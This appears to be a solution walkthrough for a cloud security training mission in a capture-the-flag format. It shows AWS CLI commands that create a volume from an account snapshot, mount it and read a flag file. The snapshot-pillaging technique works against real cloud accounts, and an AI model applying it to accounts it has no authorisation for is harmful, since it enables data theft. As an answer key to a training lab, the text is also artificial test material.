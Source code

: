 # Mission 3 cheat sheet


This mission serves to introduce users to snapshots, EBS volumes and mounting.


  * Given: Instance ip, SSH key
  * Variables: $id, $instance_ip


$ `ssh -i ssh_key.pem ec2-user@$instance_ip`

Log into the instance to look around.


$ `aws --region us-east-1 ec2 describe-instances`

Find the current instance id, and the account owner id.
These will now be called $instance_id and $owner_id respectively.


$ `aws --region us-east-1 ec2 describe-snapshots --owner-id $owner_id`

List the snapshots currently owned by the account.
There is one snapshot. Its id will be called $snapshot_id


$ `aws --region us-east-1 ec2 create-volume --availability-zone us-east-1a --snapshot-id $snapshot_id`

Create an EBS volume using this snapshot. Its id is called $ebs_id.


## Route 1: Mount the volume on the current instance

$ `aws --region us-east-1 ec2 attach-volume --device sdh --volume-id $ebs_id --instance-id $instance_id`

Attach the newly made volume to the instance. Here, it is attached as sdh, and the rest of the instructions will consider that you attached it as sdh as well.


$ `sudo su; mount -t xfs -o nouuid /dev/xvdh1 /mnt`

Only root can use -o options on mount, so switch to root. Mount xvdh1 (partition of sdh) on /mnt while specifying the filesystem type (xfs) and avoiding uuid checks (-o nouuid). This is required since both volumes are actually the same at different points in time, so their uuid are the same.


## Route 2: Create a new instance and mount the volume there

$ `aws --region us-east-1 ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-????.??.?.????????-x86_64-gp2' 'Name=state,Values=available' --query 'reverse(sort_by(Images, &CreationDate))[:1].ImageId' --output text`

Find the latest Amazon Linux AMI, called $ami_id afterwards. Note that you can also use that of the other instance by describing it.
This command is not really something to know. [AWS displays it openly on their help website.](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/finding-an-ami.html#finding-an-ami-parameter-store)


$ `aws --region us-east-1 ec2 describe-instances`

Find the name of the key-pair this instance is using, called $key_pair from now on. Also note the security group id, called $sg_id


$ `aws --region us-east-1 ec2 run-instances --image-id $ami_id --key-name $key_pair --security-group-ids $sg_id`

Start a new instances with parameters that allow you to access it. Amazon Linux is chosen here, but you can use whichever. Note the new instance id as $new_instance_id.


$ `aws --region us-east-1 ec2 attach-volume --device sdh --volume-id $ebs_id --instance-id $new_instance_id`

Attach the volume to the new instance.


$ `ssh -i ssh_key.pem ec2-user@<private ip of new instance>`

Access the new instance. You may have to fetch ssh_key.pem from your own terminal.


$ `mount -t xfs /dev/xvdh1 /mnt`

Mount xvdh1 (partition of sdh) on /mnt while specifying the filesystem type (xfs).


## With the volume mounted

$ `cd mnt/home/ec2-user; ls; cd chonks; cat flag.txt`

You win!


## Remember

**Delete anything you created before attempting to destroy the mission. This includes volumes, instances, and so on. The snapshot is destroyed by the script, so do not worry about that.**